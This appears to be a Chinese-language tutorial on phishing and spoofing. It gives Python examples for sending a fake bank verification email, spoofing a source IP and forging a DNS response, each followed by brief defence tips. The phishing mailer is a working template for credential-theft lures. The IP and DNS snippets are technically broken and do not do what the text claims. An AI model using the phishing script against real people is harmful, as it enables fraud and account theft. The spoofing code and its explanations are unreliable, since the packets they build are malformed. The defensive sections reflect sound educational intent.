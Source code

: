 ### 網釣攻擊與欺騙技術

**網釣攻擊（Phishing）** 是一種社會工程學攻擊，攻擊者伪裝成可信任的實體來誘騙受害者透露敏感信息（如帳戶密碼、信用卡號等）。**欺騙技術（Spoofing）** 則是指攻擊者偽裝自己為合法的實體，進行各種不正當操作，進而達成某些目的，如篡改通信內容、竊取資料等。

以下是網釣攻擊與欺騙技術的基本介紹和一些利用 Python 實現的攻擊範例。

#### 1. **網釣攻擊（Phishing）**

網釣攻擊通常涉及通過電子郵件或虛假網站來欺騙目標受害者，以獲取其敏感信息。攻擊者可能偽裝成銀行、政府機構或社交媒體網站，並通過假冒的網站或電子郵件騙取用戶的登入信息。

**攻擊示例：**
- 假冒銀行網站的登入頁面。
- 發送偽裝成公司 IT 部門的電子郵件，要求用戶重設密碼。

#### 2. **欺騙技術（Spoofing）**

欺騙技術使攻擊者可以偽裝成另一個合法的系統或用戶。常見的欺騙技術包括：
- **IP 欺騙（IP Spoofing）：** 攻擊者偽裝成受信任的 IP 地址。
- **電子郵件欺騙（Email Spoofing）：** 偽造發件人電子郵件地址。
- **DNS 欺騙（DNS Spoofing）：** 攻擊者篡改 DNS 記錄，將用戶引導到惡意網站。

### Python 實現攻擊範例

以下是一些基於網釣攻擊和欺騙技術的簡單 Python 程式碼範例：

#### 1. **網釣攻擊範例：簡單的假冒電子郵件**

此範例展示如何使用 Python 來發送一封偽造的電子郵件。此範例僅為教育目的，請勿用於不正當用途。

```python
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

# 假冒的發件人和受害者
sender_email = "fakeemail@example.com"
receiver_email = "victim@example.com"
subject = "Account Verification Required"
body = """
Dear User,

We have detected unusual activity on your account. Please click the link below to verify your account:

http://fakebank.com/verify?user=victim

Thank you,
Fake Bank Support
"""

# 設定SMTP伺服器
smtp_server = "smtp.example.com"
smtp_port = 587
smtp_user = "smtp_user@example.com"
smtp_password = "smtp_password"

# 創建MIME對象
msg = MIMEMultipart()
msg['From'] = sender_email
msg['To'] = receiver_email
msg['Subject'] = subject
msg.attach(MIMEText(body, 'plain'))

# 發送電子郵件
try:
    server = smtplib.SMTP(smtp_server, smtp_port)
    server.starttls()
    server.login(smtp_user, smtp_password)
    text = msg.as_string()
    server.sendmail(sender_email, receiver_email, text)
    print("Phishing email sent successfully!")
except Exception as e:
    print(f"Failed to send email: {e}")
finally:
    server.quit()
```

- **用途：** 此代碼會發送一封偽裝成來自某個銀行的電子郵件，該郵件包含一個虛假的鏈接，誘使受害者點擊並提供敏感信息。
- **防範：** 設置電子郵件過濾器以識別可疑的電子郵件，並對來自未知發件人的電子郵件保持警惕。

#### 2. **IP 欺騙範例：偽裝發送來源**

下面是利用 Python 發送 IP 欺騙請求的簡單示範。這個例子展示如何偽裝源 IP 地址來進行攻擊。

```python
import socket

# 假裝成另一個IP地址
fake_ip = "192.168.1.100"
target_ip = "192.168.1.1"
target_port = 80

# 創建原始套接字
sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)

# 設定 IP 標頭
ip_header = socket.inet_aton(fake_ip)  # 假冒的源IP
dest_ip = socket.inet_aton(target_ip)  # 目標IP
ip_packet = ip_header + dest_ip  # IP包結構

# 發送偽造的包
sock.sendto(ip_packet, (target_ip, target_port))
print("Spoofed packet sent successfully.")
```

- **用途：** 這段代碼創建了一個偽造的 TCP/IP 包，將源 IP 地址設置為受害者 IP，使目標主機認為請求來自受害者。
- **防範：** 使用防火牆和網絡監控系統來識別和阻止這類欺騙行為。

#### 3. **DNS 欺騙範例：偽造 DNS 回應**

此範例展示如何利用 Python 模擬 DNS 欺騙，篡改 DNS 查詢結果，將受害者引導至惡意網站。

```python
import socket

# 目標 DNS 伺服器與篡改的域名
target_dns = "8.8.8.8"  # Google Public DNS
target_domain = "example.com"
fake_ip = "192.168.1.100"

# 設置 UDP 套接字
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# 偽造 DNS 回應包
response = b'\x00\x00'  # DNS 回應的標頭
response += b'\x00\x00\x00\x01'  # 回應一個查詢結果
response += b'\x00\x00\x00\x01'  # 結果類型 A（IP 地址）
response += b'\x00\x01'  # 地址長度
response += socket.inet_aton(fake_ip)  # 回應的假IP地址

# 發送偽造的 DNS 回應
sock.sendto(response, (target_dns, 53))
print("Fake DNS response sent.")
```

- **用途：** 偽造 DNS 回應，將目標域名解析為一個不正確的 IP 地址，導致受害者訪問不安全的網站。
- **防範：** 使用 DNSSEC（DNS 安全擴展）來驗證 DNS 查詢的完整性，並加強對 DNS 伺服器的安全性。

### 防範網釣攻擊與欺騙技術

1. **防範網釣攻擊：**
   - 使用垃圾郵件過濾器來篩選來自可疑發件人的郵件。
   - 教育用戶不要輕易點擊未知來源的鏈接，並且不要透露敏感信息。
   - 設置強密碼並啟用多因素認證，以防止帳戶被駭。

2. **防範欺騙技術：**
   - 使用防火牆來檢測和阻止偽造的 IP 請求。
   - 加強電子郵件伺服器的身份驗證，並使用 SPF、DKIM 和 DMARC 技術來防止電子郵件欺騙。
   - 監控 DNS 流量並啟用 DNSSEC，防止 DNS 欺騙。

### 結論

網釣攻擊和欺騙技術是常見的社會工程學攻擊手段。防範這些攻擊需要結合技術手段（如使用過濾器、防火牆、DNSSEC 等）和用戶教育，保持對可疑活動的警覺。
